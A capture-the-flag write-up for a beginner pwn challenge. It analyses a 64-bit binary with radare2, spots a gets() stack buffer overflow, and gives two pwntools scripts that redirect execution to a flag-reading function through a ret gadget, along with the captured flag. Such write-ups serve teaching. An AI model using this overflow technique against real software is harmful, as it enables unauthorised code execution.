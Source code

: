 Pwn01
=

Can you return my flag here?

Artifact Files:
[pwn01.zip](./pwn01.zip)

### Author: @mrerror0790 (community)

Quick Overview
=

This is just a basic program that seems to take our input and terminate ! Let's see 
how it works under the hood and if we have potential vulnerabilities

## Running the binary

```
┌───────────────────────────────────────────────────────────────────────┐
│ ██████╗ ██╗   ██╗ █████╗ ██████╗ ██╗  ██╗     ██████╗████████╗███████╗│
│██╔═══██╗██║   ██║██╔══██╗██╔══██╗██║ ██╔╝    ██╔════╝╚══██╔══╝██╔════╝│
│██║   ██║██║   ██║███████║██████╔╝█████╔╝     ██║        ██║   █████╗  │
│██║▄▄ ██║██║   ██║██╔══██║██╔══██╗██╔═██╗     ██║        ██║   ██╔══╝  │
│╚██████╔╝╚██████╔╝██║  ██║██║  ██║██║  ██╗    ╚██████╗   ██║   ██║     │
│ ╚══▀▀═╝  ╚═════╝ ╚═╝  ╚═╝╚═╝  ╚═╝╚═╝  ╚═╝     ╚═════╝   ╚═╝   ╚═╝     │
└───────────────────────────────────────────────────────────────────────┘
Yo hackers give me the address to find out my way ............!
>qsdqsd

(binary terminated)
```

Information Gathering
=

The file is an ELF 64 executable (LSB) and the following securities are applied
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   67 Symbols	  No	0	
```

Seems we got lucky, there is no canary or PIE but NX is enabled and since libc wasn't given it's unlikely
to be ret2libc or shellcode injection.

Code
=

Reverse Engineering tool : **radare2**


Listing the functions in the binary we get this list : 
```
0x00401080    1     42 entry0
0x004010c0    4     31 sym.deregister_tm_clones
0x004010f0    4     49 sym.register_tm_clones
0x00401130    3     28 sym.__do_global_dtors_aux
0x00401160    1      2 sym.frame_dummy
0x00401290    1      1 sym.__libc_csu_fini
0x00401294    1      9 sym._fini
0x00401162    1     37 sym.way_out
0x00401040    1      6 sym.imp.puts
0x00401050    1      6 sym.imp.system
0x00401230    4     93 sym.__libc_csu_init
0x004010b0    1      1 sym._dl_relocate_static_pie
0x00401187    1    154 main
0x00401030    1      6 sym.imp.putchar
0x00401070    1      6 sym.imp.fflush
0x00401060    1      6 sym.imp.gets
0x00401000    3     23 sym._init
```

we get a lot of standard functions and the main function of the binary but also **sym.way_out**

**way_out**:
```asm
│           0x00401162      55             push rbp
│           0x00401163      4889e5         mov rbp, rsp
│           0x00401166      bf08204000     mov edi, str.Yo_buddy_you_got_me_out..._ ; 0x402008 ; "Yo buddy you got me out...!" ; const char *s
│           0x0040116b      e8d0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401170      bf24204000     mov edi, str._bin_cat_flag.txt ; 0x402024 ; "/bin/cat flag.txt" ; const char *string
│           0x00401175      e8d6feffff     call sym.imp.system         ; int system(const char *string)
│           0x0040117a      bf36204000     mov edi, 0x402036           ; '6 @' ; "\n" ; const char *s
│           0x0040117f      e8bcfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00401184      90             nop
│           0x00401185      5d             pop rbp
└           0x00401186      c3             ret
```

Seems like the way_out function prints "Yo buddy you got me out...!" and read the flag file.
This seems like we're gonna have to make the program return to this function somehow.

Now let's check the main function for vulnerabilities.

**main**:
```asm
│           0x00401187      55             push rbp
│           0x00401188      4889e5         mov rbp, rsp
│           0x0040118b      4883ec30       sub rsp, 0x30 // Allocates 48 bytes on the stack
│           0x0040118f      897ddc         mov dword [rbp-0x24], edi    ; argc
│           0x00401192      488975d0       mov qword [rbp-0x30], rsi    ; argv
│           0x00401196      bf38204000     mov edi, 0x402038           ; '8 @' ; const char *s
│           0x0040119b      e8a0feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011a0      bf18214000     mov edi, str._______________ ; 0x402118 ; const char *s
│           0x004011a5      e896feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011aa      bfd8214000     mov edi, str.________       ; 0x4021d8 ; const char *s
│           0x004011af      e88cfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011b4      bfa8224000     mov edi, str.________________________ ; 0x4022a8 ; const char *s
│           0x004011b9      e882feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011be      bf58234000     mov edi, str.______________________ ; 0x402358 ; const char *s
│           0x004011c3      e878feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011c8      bf08244000     mov edi, str._____________________ ; 0x402408 ; const char *s
│           0x004011cd      e86efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011d2      bfc0244000     mov edi, str.__________________________ ; 0x4024c0 ; const char *s
│           0x004011d7      e864feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011dc      bf68254000     mov edi, str.               ; 0x402568 ; const char *s
│           0x004011e1      e85afeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011e6      bf48264000     mov edi, str.Yo_hackers_give_me_the_address_to_find_out_my_way_............_ ; 0x402648 ; "Yo hackers give me the address to find out my way ............!" ; const char *s
│           0x004011eb      e850feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x004011f0      bf3e000000     mov edi, 0x3e               ; '>' ; 62 ; int c
│           0x004011f5      e836feffff     call sym.imp.putchar        ; int putchar(int c)
│           0x004011fa      488b054f2e00.  mov rax, qword [obj.stdout] ; obj.__TMC_END__
│                                                                      ; [0x404050:8]=0
│           0x00401201      4889c7         mov rdi, rax                ; FILE *stream
│           0x00401204      e867feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x00401209      488d45e0       lea rax, [rbp-0x20]
│           0x0040120d      4889c7         mov rdi, rax                ; char *s
│           0x00401210      b800000000     mov eax, 0
│           0x00401215      e846feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0040121a      b800000000     mov eax, 0
│           0x0040121f      c9             leave
└           0x00401220      c3             ret
```

As we can see here arguments are being copied on the stack:
- argc -> rbp-0x24 (int64_t)
- argv -> rbp-0x30 (8 bytes pointer since this is x64)

And there is a 32 bytes char buffer left to fill the rest of the stack.
Then the program prints a whole bunch of text for the banner and asks
us for input ! 

Now the big red flag is that it's using the function **gets()** which is incredibly famous
for being absolutely trash since it generates buffer overflows like a charity for hackers.

Since we have a 32 bytes buffer, any input over 32 will start writing memory on the stack.
Considering that rbp is pushed on the stack at the start of the function the return address
RIP will jump to after the main function executes is stored at offset **40** from the start of our
buffer.

Now we have all the ingredients for a juicy overflow:
- Buffer overflow in the main frame
- the offset to overwrite RIP
- the address of the function to read the flag

Building the exploit
=

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Running this does print the first message of the way_out function
but seems like we fucked up the stack too much for it to call system afterwards.

A common trick I use in order to fix stacks for function calls
is calling a *ret* gadget on the function address which should rebuild a "healthy" stack around the function call

Using **ROPgadget** we find this, 0x0000000000401016 : ret

```py
#!/usr/bin/env python3

from pwn import *

context.log_level = 'error'
context.binary = elf = ELF('./src/pwn01')
context.arch = 'amd64'
context.endian = 'little'

if args.REMOTE:
    io = remote("pwn01.ctf.teamquark.com", 65301)
else:
    io = elf.process()

io.recvuntil(b'>')

offset = 40
ret_gadget =  0x401016
address = elf.symbols['way_out']

payload = b'A' * offset
payload += pack(ret_gadget)
payload += pack(address)

io.sendline(payload)
io.interactive()
io.close()
```

Now running the exploit we get this :
```
[~/Documents/CTF-Writeups/HackEnvision/pwn01]$ ./exploit.py REMOTE
quarkCTF{i7s_34sY_70_r37uN_0n_f14g}
```

And we got our flag! 

`quarkCTF{i7s_34sY_70_r37uN_0n_f14g}`
